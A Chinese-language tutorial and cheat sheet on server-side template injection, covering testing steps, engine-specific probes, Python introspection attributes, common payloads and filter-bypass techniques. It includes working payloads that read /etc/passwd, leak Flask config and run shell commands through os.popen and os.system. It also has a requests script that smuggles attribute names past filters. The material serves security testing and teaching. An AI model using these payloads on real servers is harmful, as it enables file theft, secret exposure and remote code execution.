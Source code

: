 模版注入
========================================

简介
----------------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
----------------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试用例
----------------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config }}``
    - ``{{ config.items() }}``
    - ``{{get_flashed_messages.__globals__['current_app'].config}}``
    - ``{{''.__class__.__mro__[-1].__subclasses__()}}``
    - ``{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}``
    - ``{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标
----------------------------------------
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

相关属性
----------------------------------------

``__class__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中的新式类（即显示继承object对象的类）都有一个属性 ``__class__`` 用于获取当前实例对应的类，例如 ``"".__class__`` 就可以获取到字符串实例对应的类

``__mro__`` 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中类对象的 ``__mro__`` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

``__globals__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
保存了函数所有的所有全局变量，在利用中，可以使用 ``__init__`` 获取对象的函数，并通过 ``__globals__`` 获取 ``file`` ``os`` 等模块以进行下一步的利用

``__subclasses__()``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python的新式类都保留了它所有的子类的引用，``__subclasses__()`` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 ``__subclasses__()`` 方法就可以获取想要的类的对象。

常见Payload
----------------------------------------
- ``().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()``
- ``().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )``

绕过技巧
----------------------------------------

字符串拼接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]``

使用参数绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    params = {
        'clas': '__class__',
        'mr': '__mro__',
        'subc': '__subclasses__'
    }
    data = {
        "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
    }
    r = requests.post(url, params=params, data=data)
    print(r.text)

参考链接
----------------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
